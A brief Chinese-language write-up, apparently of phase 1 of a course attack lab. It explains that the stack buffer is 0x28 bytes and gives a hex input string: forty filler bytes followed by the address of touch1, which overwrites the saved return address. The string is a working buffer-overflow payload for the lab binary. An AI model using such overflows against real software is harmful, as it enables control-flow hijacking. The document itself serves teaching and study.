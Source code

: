 跟着pdf慢慢来
# phase 1
发现栈大小是0x28，touch1地址是0x004017c0，直接拿字符串怼过去，把地址塞进栈里原来的返回地址
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
c0 17 40 00 00 00 00 00